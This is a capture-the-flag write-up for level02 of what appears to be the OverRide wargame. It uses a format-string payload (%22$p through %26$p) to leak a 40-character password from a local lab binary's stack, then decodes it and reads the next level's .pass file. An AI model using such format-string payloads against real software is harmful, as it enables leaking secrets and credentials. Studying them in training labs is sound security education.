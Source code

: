 We get the binary out of the Vm using this cmd:

`scp -P 4242 level2@192.168.56.103:./level2 .binary/level2`

We can see line 44 in the source.c we can use a format string attack so let's find where on the stack our password id :
```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,%c,
	--[ Password: *****************************************
	�,,%,*,*,�,%,,,c,,,,,,,,,,,,H,Q,X,s,M,,%,,,c,%,,,c, does not have access!
```
We can find some char starting at pos 22, and we know the password is 40 char long

```
level02@OverRide:~$ ./level02
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p
	--[ Password: 
	*****************************************
	0x756e505234376848 does not have access!
```
We can find the first 8 char from this so let's get the 32 next !

```
level02@OverRide:~$ ./level02 
	===== [ Secure Access System v1.0 ] =====
	/***************************************\
	| You must login to access this system. |
	\**************************************/
	--[ Username: %22$p %23$p %24$p %25$p %26$p
	--[ Password: 
	*****************************************
	0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d does not have access!
```
Now we convert 
* 0x756e505234376848 => unPR47hH
* 0x45414a3561733951 => EAJ5as9Q
* 0x377a7143574e6758 => 7zqCWNgX
* 0x354a35686e475873 => 5J5hnGXs
* 0x48336750664b394d => H3gPfK9M

We just need to reverse them now and we get
`Hh74RPnu` `Q9sa5JAE` `XgNWCqz7` `sXGnh5J5` `M9KfPg3H`
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

```s
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```